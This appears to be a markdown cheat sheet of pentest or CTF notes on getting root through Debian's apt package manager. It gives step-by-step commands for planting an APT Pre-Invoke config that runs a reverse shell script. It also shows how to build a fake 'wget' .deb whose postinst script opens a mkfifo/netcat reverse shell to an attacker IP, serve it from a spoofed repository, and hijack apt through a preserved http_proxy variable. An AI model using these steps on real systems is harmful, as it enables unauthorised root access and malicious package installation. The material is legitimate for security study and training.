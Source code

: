 ## Requirements: Possibly a crontab that runs apt as root or the user can run apt/apt-get runs as root with sudo

### Steps:

#### 1) APT::Update::Pre-Invoke {"/bin/bash /tmp/pwn.sh"} (Create a malicious config file (pwnapt) that calls your reverse shell script)

#### 2) Create a reverse shell file (pwn.sh)

#### 3) Upload the config file to the /etc/apt/apt.conf.d/00pwn via any method you can (FTP,tftp,etc)

#### 4) Setup listener

#### 5) GG!

### BONUS!

### Apt configuration files directory: /etc/apt/sources.list.d/ (Check for any files that might contain places that are package repositories for the package manager to pull from)

## Setting up a malicious repository

### Requirements: Trace down where the apt manager of the target machine installs its packages from by checking out the /etc/apt/sources.list/ directory. Also choose a package which is already present on the target machine (wget for example).

##### TIP: In sudo configurations (sudo -l) if the http_proxy environment variable is kept while the command is executed as root, before doing the required setup, we can also do: export http_proxy="http://OUR_PROXY:8000" (The proxy is the one we open if we detect this env variable to force the package manager to use our repository) Run the proxy first, then run a simple python3 server and then check if your server receives any requests.

### Steps:

#### 1) mkdir build

#### 2) mkdir -p wget/DEBIAN

#### 3) nano/vim wget/DEBIAN/control (Create the control file with the metadata)

##### Package: wget

##### Architecture: all

##### Maintainer: @WHATEVER

##### Priority: optional

##### Version: 5.0

##### Description: GGEZ!

#### 4) mkdir -p wget/usr/bin

#### 5) nano/vim wget/usr/bin/wget (Make a dummy binary)

##### #!/bin/bash

##### echo "Whatever"

#### 6) chmod 700 wget/usr/bin/mypackage

#### 7) nano/vim wget/DEBIAN/postinst (Create the malicious script)

##### #!/bin/bash

##### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP PORT

#### 8) chmod 755 wget/DEBIAN/postinst

#### 9) dpkg-deb --build wget/ (Package it)

#### 10) Create a file named "Packages" with the contents:

##### Package: wget

##### Version: 5.0

##### Maintainer: WHATEVER

##### Architecture: all

##### Description: Pwnie package

##### Multi-Arch: foreign

##### Filename: pwn/wget.deb

##### Size: 800

##### MD5sum: e5c858d924abbe4effcd1fe1ca4eb21a

##### SHA1: 6822716507fe71737c635995f3f8f049d8b3cdf9

##### SHA256: 76a31c4e20bf4530027004bf7794b9c7993960d51933ce772b1594d4fc74aca5

### (You can gain the hashes for the .deb file with the md5sum, sha256sum and sha1sum respectively and the size can be gained with ls -la)

#### 11) Finish the setup using gzip

#### 12) Create the directories by replicating the repository we want to spoof with the purpose of the target apt manager downloads the package from our repository instead. Place your package in the right folder according to use case. 

#### 13) Run sudo apt-get update and sudo apt-get upgrade on target machine to download our malicious packages file.

#### 14) If the package has been downloaded, press yes to install it

#### 15) GG!
